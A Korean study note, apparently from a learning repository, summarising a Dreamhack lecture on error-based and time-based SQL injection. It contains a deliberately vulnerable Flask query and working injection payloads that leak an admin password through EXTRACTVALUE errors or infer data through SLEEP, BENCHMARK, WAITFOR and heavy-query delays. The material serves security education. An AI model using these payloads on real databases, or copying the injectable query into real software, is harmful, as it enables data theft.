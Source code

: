 # Error & Time based SQL Injection

* 쿼리 결과를 애플리케이션의 기능에서 출력하지 않는 경우에 사용할 수 있는 SQL Injection 공격 형태
    - **공격 성공 여부를 어떻게 판단하느냐**에 따라 명칭이 구분됨

<br/>

## Error based SQL Injection
임의로 에러를 발생시켜 데이터베이스 및 운영체제의 정보를 획득하는 공격 기법
* 애플리케이션에서 발생하는 에러를 이용해 공격하려고 한다면 **런타임 에러**(Runtime Error, *쿼리가 실행되고 나서 발생하는 에러*)가 필요함
    - 문법 에러(Syntax Error)와 같이 DBMS에서 쿼리가 실행되기 전에 발생하는 에러는 불가능함
* 공격자는 오류(에러) 메시지를 통해 공격에 필요한 다양한 정보를 수집하고 원하는 데이터를 획득할 수 있음
    - 에러 메시지와 같이 쿼리 실행 결과를 직접 노출하지는 않지만, **중요한 정보를 노출하는 방법들이 존재함**

<br/>

### Error based SQL Injection 예시
```python
from flask import Flask, request # Flask 프레임워크 사용
import pymysql

app = Flask(__name__)

def getConnection():
	return pymysql.connect(host='localhost', user='dream', password='hack', db='dreamhack', charset='utf8')

@app.route('/', methods=['GET'])
def index():
	username = request.args.get('username') # 이용자가 전달한 username 인자값을 가져옴
	sql = "SELECT username FROM users WHERE username='%s'" %username # 이용자의 입력값 username이 별다른 검사 없이 SQL 쿼리에 포함 → SQL Injection 취약점이 발생함

	conn = getConnetion()
	curs = conn.cursor(pymysql.cursors.DictCursor)
	curs.execute(sql)
	rows = curs.fetchall()
	conn.close()

    # SQL 실행 결과를 출력하는 코드가 존재하지 않고 쿼리 실행 결과만을 판단함
	if (rows):
		return "True"
	else:
		return "False"

app.run(host='0.0.0.0', port=8000, debug=True) # 디버그 모드 활성화(debug=True)
```
* Error based SQL Injection 공격 방법
    - Flask 프레임워크로 개발된 애플리케이션에서 디버그 모드를 활성화하면 코드에서 오류가 발생했을 때 발생 원인을 출력함
        + username에 ```admin 1'``` 쿼리를 삽입했을 경우
            ```sql
            # 생성되는 쿼리 → 실행 결과 문법 에러(Syntax Error) 발생
            SELECT username FROM users WHERE username='admin 1''
            ```
	    	![extractvalue_error](https://github.com/augustf86/Today_I_Learn/assets/122844932/1456e630-17c8-4ef3-8210-9243933f7493)

* Error based SQL Injection 공격 코드
    - ```EXTRACTVALUE``` 함수: 첫 번째 인자로 전달된 XML 데이터에서 두 번째 인자인 XPATH 식을 통해 데이터를 추출하는 함수
        + 두 번째 인자로 올바른 XPATH 식을 전달한 경우 쿼리가 정상적으로 실행됨
            ```sql
            SELECT EXTRACTVALUE('<a>test</a><b>abcd</b>', '/a'); # 결과: test
            ```
        + 두 번째 인자로 올바르지 않은 XPATH 식을 전달한 경우 에러 메시지에 삽입된 식의 결과가 출력됨
            ```sql
            SELECT EXTRACTVALUE(1, ":abcd");
            # 결과: ERROR 1105 (HY000): XPATH syntax error: ':abcd'
            ```
            - 올바르지 않은 XPATH 식에 중요한 정보를 추출할 수 있는 식을 입력한다면 공격자는 중요 정보를 획득할 수 있음
    - MySQL 환경에서 Error based SQL Injection으로 공격할 때 많이 사용하는 쿼리와 실행 결과
        ```sql
        SELECT EXTRACTVALUE(1, CONCAT(0x3a, version()));
        # 결과: ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
        ```
        + XPATH식에 삽입된 ```version``` 함수가 실행되면서 에러 메시지에 운영 체제에 대한 정보(```'0ubuntu0.16.04.1'```)가 포함되어 있음 → 공격자는 이 정보를 이용해 1-day 또는 0-day 공격을 통해 서버를 장악할 수 있음
        + ```CONCAT``` 함수: 둘 이상의 문자열을 입력한 순서대로 합쳐서 반환해주는 함수
            - 사용 형식: ```CONCAT(문자열1, 문자열2[, 문자열3, ...])```
    - ```EXTRACTVALUE``` 함수를 응용하여 데이터베이스의 정보를 추출하는 쿼리와 실행 결과
        ```sql
        SELECT EXTRACTVALUE(1, CONCAT(0x3a, (SELECT password FROM users WHERE username='admin')))
        # 결과: ERROR 1105 (HY000): XPATH syntax error: ':This_is_admin_PASSW@rd'
        ```
        + XPATH식에 삽입된 서브 쿼리가 실행되면서 에러 메시지에 users 테이블의 admin 사용자의 비밀번호가 포함되어 있음 → 공격자는 서브 쿼리를 사용해 임의 테이블의 데이터를 획득할 수 있음

<br/><br/>

## Error based Blind SQL Injection
Blind SQL Injection과 Error based SQL Injection을 동시에 활용하는 공격 기법
* Error based SQL Injection과 Error based Blind SQL Injection의 차이
    | Error based SQLI | Error based Blind SQLI |
    |---|---|
    | 에러 메시지를 통해 출력된 데이터로 정보를 수집해 출력값에 영향을 받음 | 에러 발생 여부만을 필요로 하기 때문에 용이하게 사용할 수 있음 |
* 서버가 반환하는 HTTP 상태 코드 또는 애플리케이션 응답 차이 등을 통해 에러 발생 여부를 확인하고 참/거짓 여부를 판단할 수 있음
    - 예시: MySQL의 DOUBLE 자료형의 최댓값을 초과해 에러를 발생시키는 경우
        ```sql
        SELECT IF(1=1, 9e307*2, 0); # 1=1이 참이므로 9e307*2를 반환 (결과: ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)')

        SELECT IF(1=0, 9e307*2, 0); # 1=0이 거짓이므로 0을 반환
        ```

<br/>

### Short-circuit evaluation
로직 연산의 원리를 이용해 공격하는 방법
* AND 연산자를 이용해 공격 → 처음의 식의 결과(참/거짓)에 따라 뒤의 식의 결과가 달라진다는 점을 이용함
    ```sql
    # 처음 식이 거짓을 반환하기 때문에 SLEEP 함수가 실행되지 않음
    SELECT 0 AND SLEEP(1); # 결과: 1 row in set (0.00 sec)

    # 처음 식이 참을 반환하기 때문에 SLEEP 함수가 실행됨
    SELECT 1 AND SLEEP(10); # 결과: 1 row in set (10.04 sec)
    ```
* 예시: OR 연산자를 이용해 공격 → 처음 식이 참이라면 뒤의 식의 결과가 실행에 영향을 주지 않는다는 점을 이용함
    ```sql
    # 처음 식이 참이므로 뒤의 식이 DOUBLE 자료형의 최댓값을 초과함에도 불구하고 에러 메시지 대신에 상적인 결과를 출력함
    SELECT 1=1 OR 9e307*2; # 결과: 1

    # 처음 식이 거짓이고, 뒤의 식이 DOUBLE 자료형의 최댓값을 초과하므로 에러 메시지를 출력함
    SELECT 1=0 OR 9e307*2; # 결과: ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)'
    ```

<br/><br/>

## Time based SQL Injection
시간 지연을 통해 쿼리의 참/거짓 여부를 판단하는 공격 기법
* 시간을 지연시키는 방법
    - ```SLEEP```과 같이 DBMS에서 제공하는 함수를 사용
    - 시간이 많이 소요되는 연산을 수행하는 헤비 쿼리(heavy query)를 사용

<br/>

### DBMS별로 Time based SQLI을 통해 공격하는 방법
* MySQL
    - ```SLEEP``` 함수 사용
        + ```SLEEP``` 함수: 대기할 시간(sec)을 인자로 받으며 지정한 시간만큼 대기하게 만드는 함수 (반환값 없음)
            - ```WHERE``` 조건문엔 의해 선택되는 행의 수만큼 ```SLEEP``` 함수를 호출함 → ```WHERE``` 조건문을 이용해 ```SLEEP``` 함수를 반복하게 만들 수 있음
        + 사용 예시
            ```sql
            SELECT SLEEP(1); # 결과: 1 row in set(1.00 sec)
            ```
    - ```BENCHMARK``` 함수 사용
        + ```BENCHMARK``` 함수: 반복 수행할 횟수와 실행할 표현식(반드시 스칼라(단일) 값을 반환해야 함)을 인자로 필요로 하는 함수
            - 지정한 횟수만큼 반복실행하는데 얼마나 시간이 소요되었는지가 중요함
            - 해당 함수로 얻은 쿼리나 함수의 성능은 그 자체로는 별 의미가 없음에 유의 (두 개의 동일 기능을 상대적으로 비교 분석하는 용도로만 사용할 것을 권장함)
        + 사용 예시
            ```sql
            SELECT BENCHMARK(4000000, SHA1(1)); # 결과: 1 row in set (10.78 sec)
            ```
    - 헤비 쿼리 사용
        + 헤비 쿼리 예시
            ```sql
            SELECT (SELECT COUNT(*) FROM information_schema.tables A, information_schema.tables B, information_schema.tables C) as heavy; # 결과: 1 row in set (1.38 sec)
            ```
* MSSQL
    - ```WAITFOR``` 사용
        + ```WAITFOR DELAY 'time_to_pass'```는 특정 시간 동안 지연시킬 때 사용됨
            - ```'time_to_pass'``` 부분에 '시:분:초:밀리세컨트' 형식으로 딜레이를 줄 수 있음
        + 사용 예시
            ```sql
            SELECT '' IF((SELECT 'abc')='abc') WAITFOR DELAY '0:0:1';
            ```
    - 헤비 쿼리 사용
        ```sql
        SELECT (SELECT COUNT(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C, information_schema.columns D);
        ```
* SQLite
    - 헤비 쿼리 사용
        ```sql
        .timer ON
        SELECT LIKE('ABCDEFG', UPPER(HEX(RANDOMBLOB(150000000000000/2)))) # SLEEP TIME: 150000000000000/2
        ```

<br/><br/><br/><br/>

### 🔖 출처
* [드림핵 Web Hacking Advanced - Server Side] 📌 [ExploitTech: Error & Time based SQL Injection](https://dreamhack.io/lecture/courses/286)
